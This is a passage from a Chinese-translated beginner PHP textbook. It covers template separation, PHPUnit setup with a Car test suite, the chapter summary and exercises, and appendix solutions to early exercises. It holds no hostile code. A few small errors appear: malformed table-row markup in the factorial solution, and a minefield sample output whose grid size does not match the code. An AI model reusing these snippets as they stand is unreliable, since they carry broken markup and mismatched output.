	"firstNameValue" => setValue( "firstName" ),
	"lastNameAttrs" => validateField( "lastName", $missingFields ),
	"lastNameValue" => setValue( "lastName" ),
	"genderAttrs" => validateField( "gender", $missingFields ),
	"genderMChecked" => setChecked( "gender", "M" ),
	"genderFChecked" => setChecked( "gender", "F" ),
	"favoriteWidgetOptions" => array (
		"superWidget" => setSelected( "favoriteWidget", "superWidget" ),
		"megaWidget" => setSelected( "favoriteWidget", "megaWidget" ),
		"wonderWidget" => setSelected( "favoriteWidget", "wonderWidget" ),
	),
	"newsletterChecked" => setChecked( "newsletter", "yes" ),
	"commentsValue" => setValue( "comments" )
);
require( "templates/registration_form.php" );
}

function displayThanks() {
$results = array (
	"pageTitle" => "Thank You"
);
require( "templates/thanks.php" );
}
```

每个函数都会创建一个名为 `$results` 的数组变量，其中包含要在页面上显示的信息。然后页面模板使用此数组来显示信息。这样一来，数据就可以在应用程序代码和表示代码之间传递。例如，`registration_form.php` 使用 `firstNameAttrs` 数组元素将任何属性（例如 `'class="error"'`）插入到 `firstName` 标签的标记中，并使用 `firstNameValue` 数组元素显示 `firstName` 字段中之前输入的任何值：

```php
<label for="firstName"<?php echo $results["firstNameAttrs"] ?>>
First name </label>
<input type="text" name="firstName" id="firstName" value="<?php echo $results["firstNameValue"] ?>" />
```

`registration.php` 中的表单辅助函数（例如 `validateField()` 和 `setValue()`）已被重写为返回其输出值，而不是使用 `echo()` 显示它们。这样，这些值就可以通过 `$results` 数组传递到模板页面。

这些更改的最终结果是，`registration.php` 中几乎所有表示标记都已删除，而模板页面中只包含极少量的 PHP 代码——事实上，只有一段决策代码（`registration_form.php` 顶部附近的 `if` 块）、几个 `require()` 调用以包含页面页眉和页脚文件，以及一系列 `echo` 语句来显示结果。一般来说，你应该尽量将模板文件中的 PHP 代码限制在 `echo`/`print` 语句、`include` 语句、决策和循环中，并且仅当代码与显示结果直接相关时才使用。任何更复杂的代码都应放在应用程序代码中。

此示例还可以进一步改进。例如，理想情况下，`registration.php` 不应包含表单辅助函数 `validateField()`、`setValue()`、`setChecked()` 和 `setSelected()`，因为这些函数特定于输出介质（XHTML）。更好的方法是使用类和继承来进一步分离表示逻辑和应用程序逻辑，使应用程序逻辑无需了解特定的输出介质（无论是 HTML、XHTML、纯文本、PDF 等等）。

这种技术的一个很好示例是模型-视图-控制器（Model-View-Controller）设计模式。这超出了本书的范围，但你可以在 `http://en.wikipedia.org/wiki/Model-View-Controller` 处找到概述。关于设计模式的一般知识，一本优秀的书是 Martin Fowler 撰写的 _企业应用架构模式_（Addison-Wesley 出版，ISBN: 978-0321127426）。

另一个不错的方法是使用诸如 Smarty 之类的模板框架（`http://www.smarty.net/`）。这个强大的框架允许你将表示代码分离到无需在模板文件中包含任何一行 PHP 代码的程度。如果你正在与一支不愿触碰你 PHP 代码的设计师团队共同开发大型项目，这将非常有用。

## 使用 PHPUnit 进行自动化代码测试

测试是编写高质量代码的重要方面。在发布应用程序之前对其进行彻底测试，可以确保应用程序尽可能稳定且无 bug（尽管它很可能仍然包含 bug）。

代码测试有许多方法。你可以手动运行应用程序，尝试不同的输入（例如不同的表单字段值），并验证应用程序是否产生预期的输出。这种技术称为 _集成测试_，因为你是在测试整个应用程序。

一种互补的方法称为 _单元测试_。这涉及测试应用程序的每个单元（例如每个函数或方法），而不是整个应用程序。通常，同时使用集成测试和单元测试来彻底测试应用程序是个好主意。

由于测试单个代码单元比测试整个应用程序更简单，因此通常可以自动化单元测试，而 PHPUnit 正是为此而生。

PHPUnit 是一个用于自动化单元测试的框架。你可以使用它用 PHP 编写测试来测试应用程序的每个单元，然后自动运行测试并查看结果。

要安装 PHPUnit，请使用 PEAR 安装程序（有关 PEAR 的更多信息，请参见第 15 章）。由于 PHPUnit 不在标准 PEAR 频道中，你首先需要运行（可能以 root 或管理员身份）：

```
pear channel-discover pear.phpunit.de
```

随后你应该会看到：

```
Adding Channel "pear.phpunit.de" succeeded
Discovery of channel "pear.phpunit.de" succeeded
```

现在按以下方式安装 PHPUnit（如果需要，再次以 root 身份）：

```
pear install --alldeps phpunit/PHPUnit
```

## 尝试：编写一个简单的 PHPUnit 测试套件

既然你已经安装了 PHPUnit，请尝试编写一些简单的测试。在本示例中，你将测试第 8 章中 car_simulator.php 脚本创建的 Car 类（以及本章前面“记录你的代码”部分中重现的部分）的几个方法。

将以下脚本保存为文档根目录下的 car_tests.php：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Car Test Suite Example</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Car Test Suite Example</h1>
<pre>
<?php
require_once ( "PHPUnit/Framework.php" );
require_once ( "PHPUnit/TextUI/TestRunner.php" );

class Car {
    public $color;
    public $manufacturer;
    public $model;
    private $_speed = 0;

    public function accelerate() {
        if ( $this->_speed >= 100 ) return false;
        $this->_speed += 10;
```


```
return true;
}

public function brake() {
    if ( $this->_speed <= 0 ) return false;
    $this->_speed -= 10;
    return true;
}

public function getSpeed() {
    return $this->_speed;
}
}

class CarTest extends PHPUnit_Framework_TestCase
{
    public function testInitialSpeedIsZero()
    {
        $car = new Car();
        $this->assertEquals( 0, $car->getSpeed() );
    }

    public function testAccelerate()
    {
        $car = new Car();
        $car->accelerate();
        $this->assertEquals( 10, $car->getSpeed() );
    }

    public function testMaxSpeed()
    {
        $car = new Car();
        for ( $i=0; $i < 10; $i ++ ) {
            $car->accelerate();
        }

        $this->assertEquals( 100, $car->getSpeed() );
        $car->accelerate();
        $this->assertEquals( 100, $car->getSpeed() );
    }
}

$testSuite = new PHPUnit_Framework_TestSuite();
$testSuite->addTest( new CarTest( "testInitialSpeedIsZero" ) );
$testSuite->addTest( new CarTest( "testAccelerate" ) );
$testSuite->addTest( new CarTest( "testMaxSpeed" ) );

PHPUnit_TextUI_TestRunner::run( $testSuite );

?>
</pre>
</body>
</html>
```

在Web浏览器中运行此脚本。如果一切顺利，你应该会看到类似图20-3的页面，表示所有测试都已通过。


图20-3

## 工作原理

脚本首先显示XHTML页面页头并包含两个PHPUnit库文件：

- PHPUnit/Framework.php 是PHPUnit的主要框架库。包含此文件会加载创建测试所需的所有类
- PHPUnit/TextUI/TestRunner.php 提供PHPUnit_TextUI_TestRunner类，用于运行测试套件中的测试并显示结果

脚本的主要部分包含三个部分：要测试的类（Car）、包含要运行的测试的测试用例类（CarTest）以及运行测试的过程代码。CarTest继承自PHPUnit_Framework_TestCase类，该类用于创建由PHPUnit运行的测试用例。

> 在实际情况中，你通常会将测试用例类与要测试的类放在不同的文件中。然后你的测试文件会使用include()来包含要测试的类文件。

这个简单的测试用例仅包含三个测试方法：

- testInitialSpeedIsZero() 确保新创建的Car对象报告的速度为零
- testAccelerate() 对静止的汽车进行加速，然后检查新速度是否为10英里每小时
- testMaxSpeed() 将汽车加速至最大速度（100英里每小时），然后检查无法再加速

每个方法都会创建一个新的Car类，执行适当的操作（例如加速汽车），并测试结果。测试是通过调用PHPUnit_Framework_TestCase::assertEquals()来完成的，该方法检查两个值是否匹配（如果不匹配，测试失败）。其他常用的断言方法包括：

| 断言方法 | 测试成功条件 ... |
|---|---|
| `assertNotEquals( $a, $b )` | `$a 和 $b 不相等` |
| `assertGreaterThan( $a, $b )` | `$b 大于 $a` |
| `assertGreaterThanOrEqual( $a, $b )` | `$b 大于或等于 $a` |
| `assertLessThan( $a, $b )` | `$b 小于 $a` |
| `assertLessThanOrEqual( $a, $b )` | `$b 小于或等于 $a` |
| `assertTrue( $x )` | `$x 计算结果为 true` |
| `assertFalse( $x )` | `$x 计算结果为 false` |
| `assertContains( $a, $b )` | `$a 是数组 $b 的一个元素` |

对于所有断言方法，你可以包含一条作为字符串的说明性消息（通常作为最后一个参数）。如果测试失败，将显示或记录此消息。在处理大型测试用例时，这有助于识别失败的测试。例如：

```
$this->assertEquals( 0, $car->getSpeed(), "Car's initial speed is not 0" );
```

定义Car和CarTest类后，脚本会创建一个新的测试套件（即一组测试），将这三个测试添加到套件中，并运行该套件：

```
$testSuite = new PHPUnit_Framework_TestSuite();
$testSuite->addTest( new CarTest( "testInitialSpeedIsZero" ) );
$testSuite->addTest( new CarTest( "testAccelerate" ) );
$testSuite->addTest( new CarTest( "testMaxSpeed" ) );

PHPUnit_TextUI_TestRunner::run( $testSuite );
```

此示例仅涉及了PHPUnit的表面内容。它是一个功能强大的框架，允许你进行诸如以下的高级操作：

- [ ] 创建专门用于测试数据库代码的自包含环境
- [ ] 使用模拟对象来测试应用程序中是否正确调用了方法
- [ ] 生成代码覆盖率报告，列出应用程序中未被测试的任何代码行

使用PHPUnit创建单元测试可能看起来工作量很大，但从长远来看可以节省时间。例如，编写测试用例后，每次开发新版本的代码时都可以针对应用程序运行该测试用例，以确保代码仍然按预期工作（这称为_回归测试_）。与往常一样，开始学习PHPUnit的好地方是文档，可在http://www.phpunit.de/wiki/Documentation上在线查阅。

## 总结

本章介绍了多种有助于你编写更好代码的技术。高质量的代码很重要，因为它对你（和其他人）来说更快速、更易于维护；它在处理问题和错误时更加健壮；并且能更好地防范不法用户的攻击。你探索了以下主题：

- **如何编写模块化代码**：这涉及将你的代码拆分为小的、易于维护的块，这些块通常可以被不同的应用程序重复使用。你简要回顾了函数和类，查看了PHP的`include()`、`require()`、`include_once()`和`require_once()`函数，这些函数允许你将应用程序拆分到不同的脚本文件中，并简要了解了使用命名空间以避免代码模块之间的函数、方法和常量名称冲突

- **如何创建和使用编码标准**：编码标准有助于你编写格式统一、易于阅读且更易于维护的代码。你查看了PHP和其他语言中使用的一些约定

- **创建代码文档**：你了解了为什么注释和代码文档是编写良好的应用程序不可或缺的一部分，并学习了如何编写好的注释以及使用phpDocumentor生成文档

- **应用程序安全**：这一重要且常被忽视的Web编程方面是任何健壮应用程序的关键部分。你学习了如何检查和过滤用户输入以确保其完整性，以及如何对应用程序的输出进行编码或转义，以确保其仅包含安全数据

- **错误处理**：为了让你的应用程序尽可能可靠地运行，它需要优雅地处理问题。你学习了如何使用PHP的错误处理和日志记录函数来处理错误，以及如何利用异常类的强大功能来创建灵活、健壮的错误处理代码

- **分离应用程序代码和表现层代码**：你学习了如何将表现层标记移动到单独的模板文件中，从而在应用程序的业务逻辑和其可视化界面之间建立清晰的划分。这样做使你的应用程序代码对设计师和程序员来说都更容易使用

- **单元测试**：你了解了代码测试（尤其是单元测试）的好处。尽早且经常地测试代码可以节省以后的许多麻烦。你简要了解了PHPUnit，这是一个测试框架，可让你轻松编写自己的自动化单元测试

读完本书所有章节后，你不仅知道如何编写PHP代码，还知道如何编写优质的PHP代码。创建高质量的代码需要时间、精力和纪律，但结果是健壮、易于维护和扩展的应用程序。任何处理你代码的人——包括你自己——都会感谢你！既然你了解编写高质量代码所涉及的概念，请尝试以下两个练习来测试你创建错误处理程序和使用PHPUnit的技能。你可以在附录A中找到这些练习的解答。

希望你觉得这本PHP 5.3入门指南既有用又有趣。祝你开发Web应用程序顺利，玩得开心！


## 练习

- 1. 编写一个错误处理程序 `myErrorHandler()`，将任何 `E_WARNING` 或 `E_USER_WARNING` 消息发送到您的电子邮件地址，并将其他错误记录到 `non_serious_errors.log` 文件中。使用同时生成 `E_USER_WARNING` 和 `E_USER_NOTICE` 错误的代码来测试您的处理程序。

- 2. 创建一个 PHPUnit 测试用例，测试第 8 章中 `inheritance.php` 定义的 `Circle` 类的所有方面。


# 练习解答

## 第 2 章

### 练习解答

诀窍在于对 date() 进行第二次调用，传入适当的字符以显示当前日期。您可以按照以下方式编写脚本（在适当的位置添加注释）：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Hello</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>
<?php
// Get the current time in a readable format
$currentTime = date( 'g:i:s a' );
// Get the current date in a readable format
$currentDate = date( 'M j, Y' );
// Display greeting, time and date to the visitor
echo "Hello, world! The current time is $currentTime on $currentDate";
?>
</h1>
</body>
</html>
```

## 第 3 章

### 练习 1 解答

编写类似这样的 PHP 脚本：

```php
<?php
$x = 5;
$x = $x + 1;
$x += 1;
$x++;
echo $x;
?>
```

### 练习 2 解答

编写类似这样的 PHP 脚本：

```php
<?php
$x = 3;
$y = 4;
echo "Test 1 result: " . ($x == $y) . "<br />";
echo "Test 2 result: " . ($x > $y) . "<br />";
echo "Test 3 result: " . ($x <= $y) . "<br />";
echo "Test 4 result: " . ($x != $y) . "<br />";
?>
```

## 第 4 章

### 练习 1 解答

编写此脚本的方法有很多。以下解决方案创建一个 for 循环来计数数字，然后使用 ?（三元）运算符和 switch 结构来确定每个数字是奇数、偶数还是质数。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Testing the Numbers 1-10</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Testing the Numbers 1-10</h1>
<table border="1">
<tr>
<th>Number</th>
<th>Odd or Even?</th>
<th>Prime?</th>
</tr>
<?php
for ( $i = 1; $i <= 10; $i++ ) {
$oddEven = ( $i % 2 == 0 ) ? "Even" : "Odd";
switch ( $i ) {
case 2:
case 3:
case 5:
case 7:
$prime = "Yes";
break;
default:
$prime = "No";
break;
}
?>
<tr>
<td><?php echo $i?></td>
<td><?php echo $oddEven?></td>
<td><?php echo $prime?></td>
</tr>
<?php
}
?>
</table>
</body>
</html>
```

### 练习 2 解答

此处的诀窍是存储代表两只鸽子的两组坐标，然后扩展“飞行”逻辑和循环条件，以同时容纳两只鸽子。例如，第一个 do . . . while 循环只有在两只鸽子都位于距离家巢一半地图大小以上的位置时才应退出，第二个 do...while 循环应在两只鸽子都飞回家时退出。因此，脚本中的循环条件和决策需要稍微复杂一些：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Homing Pigeons Simulator</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
div.map { float: left; text-align: center; border: 1px solid #666;
background-color: #fcfcfc; margin: 3px; padding: 1em; }
span.home, span.pigeon { font-weight: bold; }
span.empty { color: #666; }
</style>
</head>
<body>

<?php

$mapSize = 10;

// Position the home and the pigeons
do {
    $homeX = rand ( 0, $mapSize-1 );
    $homeY = rand ( 0, $mapSize-1 );
    $pigeon1X = rand ( 0, $mapSize-1 );
    $pigeon1Y = rand ( 0, $mapSize-1 );
    $pigeon2X = rand ( 0, $mapSize-1 );
    $pigeon2Y = rand ( 0, $mapSize-1 );
} while ( ( abs($homeX - $pigeon1X) < $mapSize/2 ) && ( abs( $homeY - $pigeon1Y )
< $mapSize/2 ) || ( ( abs($homeX - $pigeon2X ) < $mapSize/2 ) && ( abs( $homeY
- $pigeon2Y ) < $mapSize/2 ) ) );

do {

// Move the pigeons closer to home
if ( $pigeon1X < $homeX )
    $pigeon1X++;
elseif ( $pigeon1X > $homeX )
    $pigeon1X--;
if ( $pigeon1Y < $homeY )
    $pigeon1Y++;
elseif ( $pigeon1Y > $homeY )
    $pigeon1Y--;

if ( $pigeon2X < $homeX )
    $pigeon2X++;
elseif ( $pigeon2X > $homeX )
    $pigeon2X--;
if ( $pigeon2Y < $homeY )
    $pigeon2Y++;
elseif ( $pigeon2Y > $homeY )
    $pigeon2Y--;

// Display the current map
echo '<div class="map" style="width: ' . $mapSize . 'em;"><pre>';
for ( $y = 0; $y < $mapSize; $y++ ) {
  for ( $x = 0; $x < $mapSize; $x++ ) {

    if ( $x == $homeX && $y == $homeY ) {
      echo '<span class="home"></span>'; // Home
    } elseif ( ( $x == $pigeon1X && $y == $pigeon1Y ) || ( $x == $pigeon2X &&
$y == $pigeon2Y ) ) {
      echo '<span class="pigeon"></span>'; // Pigeon
    } else {
      echo '<span class="empty"></span>'; // Empty square
    }
    echo ( $x != $mapSize - 1 ) ? " " : "";
  }
  echo "\n";
}
echo "</pre></div>\n";
} while ( $pigeon1X != $homeX || $pigeon1Y != $homeY ||
$pigeon2X != $homeX || $pigeon2Y != $homeY );
?>
</body>
</html>
```

## 第 5 章

### 练习 1 解答

得益于 `printf()` 函数的灵活性，您可以轻松地以几乎任意想要的方式格式化日期。以下是以 mm/dd/yyyy 格式格式化日期的方法：

```php
printf( "%02d/%02d/%d", 3, 24, 2008 ); // Displays "03/24/2008"
```

### 练习 2 解答

要以最基本的形式模拟 `str_pad()`，您只需使用 while 循环不断在字符串右侧添加空格，直到达到所需长度。要显示结果，请确保将字符串包裹在 HTML `<pre> ...</pre>` 标签中，以便可以查看填充效果。以下是一个示例：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Emulating str_pad()</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Emulating str_pad()</h1>

<?php

$myString = "Hello, world!";
$desiredLength = 20;

echo "<pre>Original string: '$myString'</pre>";

while ( strlen( $myString ) < 20 ) {
    $myString .= " ";
}

echo "<pre>Padded string: '$myString'</pre>";
?>
</body>
</html>
```

## 第 6 章

### 练习 1 解答

此练习的解决方案相对简单，但包含了一些重要概念：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Adding Author Names</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Adding Author Names</h1>

<?php
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens", "Milton", "Orwell" );

$books = array(
    array(
        "title" => "The Hobbit",
        "authorId" => 2,
        "pubYear" => 1937
    ),
    array(
        "title" => "The Grapes of Wrath",
        "authorId" => 0,
        "pubYear" => 1939
    ),
    array(
        "title" => "A Tale of Two Cities",
        "authorId" => 3,
        "pubYear" => 1859
    ),
    array(
        "title" => "Paradise Lost",
        "authorId" => 4,
        "pubYear" => 1667
    ),
    array(
        "title" => "Animal Farm",
        "authorId" => 5,
        "pubYear" => 1945
    ),
    array(
        "title" => "The Trial",
        "authorId" => 1,
        "pubYear" => 1925
    ),
);

foreach ( $books as &$book ) {
    $book["authorName"] = $authors[$book["authorId"]];
}

echo "<pre>";
print_r( $books );
echo "</pre>";
?>
</body>
</html>


# 附录 A：习题解答

首先，脚本显示 XHTML 页面标头，然后按习题要求定义两个数组。主要操作发生在随后的 foreach 循环中：

```
foreach ( $books as &$book ) {
    $book["authorName"] = $authors[$book["authorId"]];
}
```

这段代码遍历 $books 数组中的六个元素，通过引用将每个元素赋值给变量 $book。具体做法是在 foreach 语句中在 $book 变量名前放置一个与符号 (&)。按引用赋值非常重要，因为循环内的代码需要修改 $book 元素的内容。如果缺少与符号，代码将对每个元素的副本进行操作，而 $books 数组保持不变。

```
$book["authorId"]
```

然后使用这个数值从 $authors 索引数组中检索相应的作者姓名：

```
$authors[$book["authorId"]]
```

最后，作者姓名字符串被赋值给 $book 关联数组中的新元素 “authorName”：

```
$book["authorName"] = $authors[$book["authorId"]];
```

循环完成后，使用 print_r() 函数显示最终数组。你可以在此处看到结果：

```
Array
(
    [0] => Array
    (
        [title] => The Hobbit
        [authorId] => 2
        [pubYear] => 1937
        [authorName] => Tolkien
    )

    [1] => Array
    (
        [title] => The Grapes of Wrath
        [authorId] => 0
        [pubYear] => 1939
        [authorName] => Steinbeck
    )

    [2] => Array
    (
        [title] => A Tale of Two Cities
        [authorId] => 3
        [pubYear] => 1859
        [authorName] => Dickens
    )

    [3] => Array
    (
        [title] => Paradise Lost
        [authorId] => 4
        [pubYear] => 1667
        [authorName] => Milton
    )

    [4] => Array
    (
        [title] => Animal Farm
        [authorId] => 5
        [pubYear] => 1945
        [authorName] => Orwell
    )

    [5] => Array
    (
        [title] => The Trial
        [authorId] => 1
        [pubYear] => 1925
        [authorName] => Kafka
    )
)
```

### 习题 2 解答

做这道题要意识到的重要一点是，雷区是一个二维网格，因此需要用二维数组来存储它。下面是一个可能的解答：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Creating a Minefield</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Creating a Minefield</h1>

<?php
$fieldSize = 20;
$numMines = 10;
$minefield = array();
```

# 附录 A：习题解答

```
// Initialize the minefield
for ( $x=0; $x<$fieldSize; $x++ ) {
$minefield[$x] = array();
for ( $y=0; $y<$fieldSize; $y++ ) {
$minefield[$x][$y] = false;
}
}
// Add the mines
for ( $i=1; $i<=$numMines; $i++ ) {
do {
$mineX = rand( 0, 19 );
$mineY = rand( 0, 19 );
} while ( $minefield[$mineX][$mineY] );
$minefield[$mineX][$mineY] = true;
}
// Display the minefield
echo "<pre>";
for ( $y=0; $y<$fieldSize; $y++ ) {
for ( $x=0; $x<$fieldSize; $x++ ) {
echo ( $minefield[$x][$y] ? "* " : ". " );
}
echo "\n";
}
echo "</pre>";
?>
</body>
</html>
```

脚本首先输出页面标头并设置一些配置变量：$fieldSize 用于保存雷区网格一边的大小，$numMines 用于指定要在雷区中放置的地雷数量。

接下来，脚本创建一个新数组 $minefield，并遍历数组中的所有 20 个元素。对于每个元素，它创建一个嵌套数组并将其存储在该元素中，然后遍历嵌套数组的前 20 个元素，将它们的值设置为 false，表示空白方块。（这个初始化过程并非严格必要，因为 PHP 会在需要时即时创建数组；但是，将雷区初始化为默认值是个好主意，这样你就确切知道雷区里有什么。）

初始化雷区后，脚本添加地雷。它通过创建一个从 1 计数到要创建的地雷数量 ($numMines) 的循环来实现这一点。在循环中，脚本为新地雷生成随机的 x 和 y 位置，并使用 do...while 循环确保所选位置不包含地雷。如果包含，do...while 循环会使用新的随机位置继续，直到找到空位置。然后通过将相应的数组元素设置为 true 来创建地雷。

创建完所有十个地雷后，只需再次遍历多维数组，输出每个方块。在每行之后，脚本输出一个换行符（“\n”）以开始下一行。整个网格用 <pre> ... </pre> 标签包裹，以确保网格在页面中正确对齐。

以下是示例输出：

```
. . . . . . . . . . . . . . .
* . . . . . . . . . . . . . .
. . . . . . . . . . . . . . .
. . . . . * . . . . . * . . .
. . . . . . . . . . . . . . .
. . . * . . . . . . . . . . .
. . . . . . . . . . . . . . .
. . . . . . . . . * . . . . .
. . . . . . . . . . . . * . .
. . . . * . . . * . . . * . .
. . . . . . . . . . . . . . .
. . . . . . . . * . . . . . .
. . . . . . . . . * . . . . .
```

## 第 7 章

### 习题 1 解答

以下脚本包含所需的函数 defList()，该函数以数组作为参数，并返回包含数组键和值的定义列表的标记。它还使用示例数组测试该函数。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A function to create a definition list</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h2>A function to create a definition list</h2>

<?php

$iterations = 10;

function defList( $contents ) {
  $markup = "<dl>\n";
  foreach ( $contents as $key => $value ) {
    $markup .= " <dt>$key</dt><dd>$value</dd>\n";
  }
  $markup .= "</dl>\n";
  return $markup;
}

$myBook = array( "title" => "The Grapes of Wrath",
                 "author" => "John Steinbeck",
                 "pubYear" => 1939 );

echo defList( $myBook );

?>
</body>
</html>
```

该脚本生成的定义列表的 XHTML 标记如下：

```html
<dl>
  <dt>title</dt><dd>The Grapes of Wrath</dd>
  <dt>author</dt><dd>John Steinbeck</dd>
  <dt>pubYear</dt><dd>1939</dd>
</dl>
```

### 习题 2 解答

生成整数阶乘的递归函数结构与前面章节中展示的 fibonacci() 函数类似。首先实现基本情况：

```php
if ( $n == 0 ) return 1;
```

然后实现递归情况：

```php
return factorial( $n-1 ) * $n;
```

因此完整的 factorial() 函数如下：

```php
function factorial( $n ) {
  if ( $n == 0 ) return 1;
  return factorial( $n-1 ) * $n;
}
```

下面是一个使用该函数显示 0 到 10 整数阶乘的脚本，采用与前面章节中斐波那契数列示例相同的表格格式。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Calculating factorials using recursion</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
    <style type="text/css">
        th { text-align: left; background-color: #999; }
        th, td { padding: 0.4em; }
        tr.alt td { background: #ddd; }
    </style>
</head>
<body>

    <h2>Calculating factorials using recursion</h2>

    <table cellspacing="0" border="0" style="width: 20em; border: 1px solid #666;">
        <tr>
            <th>Integer</th>
            <th>Factorial</th>
        </tr>
<?php

$iterations = 10;

function factorial( $n ) {
    if ( $n == 0 ) return 1;
    return factorial( $n-1 ) * $n;
}

for ( $i=0; $i <= $iterations; $i++ )
{
    ?>
        <tr><?php if ( $i % 2 != 0 ) echo ' class="alt' ?>"
            <td><?php echo $i?></td>
            <td><?php echo factorial( $i )?></td>
        </tr>
    <?php
}
?>
    </table>
</body>
</html>
```


## 第 8 章

### 练习 1 解答

要使 `Calculator` 类能够存储两个值，需要创建属性来保存它们，并添加一个构造函数，以便调用代码在创建新 `Calculator` 对象时存储这些值。然后只需编写四个方法来对值执行相关计算并返回结果：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A simple Calculator class</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h2>A simple Calculator class</h2>

<?php
class Calculator {
private $_val1, $_val2;

public function __construct( $val1, $val2 ) {
$this->_val1 = $val1;
$this->_val2 = $val2;
}

public function add() {
return $this->_val1 + $this->_val2;
}

public function subtract() {
return $this->_val1 - $this->_val2;
}

public function multiply() {
return $this->_val1 * $this->_val2;
}

public function divide() {
return $this->_val1 / $this->_val2;
}
}

$calc = new Calculator( 3, 4 );
echo "<p>3 + 4 = " . $calc->add() . "</p>";
echo "<p>3 - 4 = " . $calc->subtract() . "</p>";
echo "<p>3 * 4 = " . $calc->multiply() . "</p>";
echo "<p>3 / 4 = " . $calc->divide() . "</p>";
?>
</body>
</html>
```

### 练习 2 解答

要扩展 `Calculator` 类以创建 `CalcAdvanced` 子类，请使用 `extend` 关键字。需要重写 `Calculator` 的构造函数，以允许第二个参数是可选的。然后可以使用特殊的 `__call()` 方法创建虚拟“方法” `pow()`、`sqrt()` 和 `exp()`，它们只是分别调用各自的内置数学函数，这与本章前面提到的 `clever_string.php` 示例类似。

以下解决方案创建一个允许函数名称的静态关联数组。数组的键是函数名称，值是每个函数期望的参数数量。这允许 `__call()` 方法将正确数量的参数传递给适当的内置数学函数。请注意，原始 `Calculator` 类的 `$_val1` 和 `$_val2` 属性已从 `private` 更改为 `protected`，以允许子类访问它们：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Extending the Calculator class</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h2>Extending the Calculator class</h2>

<?php
class Calculator {
    protected $_val1, $_val2;

    public function __construct( $val1, $val2 ) {
        $this->_val1 = $val1;
        $this->_val2 = $val2;
    }

    public function add() {
        return $this->_val1 + $this->_val2;
    }

    public function subtract() {
        return $this->_val1 - $this->_val2;
    }

    public function multiply() {
        return $this->_val1 * $this->_val2;
    }

    public function divide() {
        return $this->_val1 / $this->_val2;
    }
}

class CalcAdvanced extends Calculator {
private static $allowedFunctions = array( "pow" => 2, "sqrt" => 1, "exp" => 1 );

public function __construct( $val1, $val2=null ) {
    parent::__construct( $val1, $val2 );
}

public function __call( $methodName, $arguments ) {
    if ( in_array( $methodName, array_keys( CalcAdvanced::$allowedFunctions ) ) ) {
        $functionArguments = array( $this->_val1 );
        if ( CalcAdvanced::$allowedFunctions[$methodName] == 2 ) array_push(
        $functionArguments, $this->_val2 );
        return call_user_func_array( $methodName, $functionArguments );
    } else {
        die ( "<p>Method 'CalcAdvanced::$methodName' doesn't exist</p>" );
    }
}
}

$ca = new CalcAdvanced( 3, 4 );
echo "<p>3 + 4 = " . $ca->add() . "</p>";
echo "<p>3 - 4 = " . $ca->subtract() . "</p>";
echo "<p>3 * 4 = " . $ca->multiply() . "</p>";
echo "<p>3 / 4 = " . $ca->divide() . "</p>";
echo "<p>pow( 3, 4 ) = " . $ca->pow() . "</p>";
echo "<p>sqrt( 3 ) = " . $ca->sqrt() . "</p>";
echo "<p>exp( 3 ) = " . $ca->exp() . "</p>";

?>
</body>
</html>
```

## 第 9 章

### 练习 1 解答

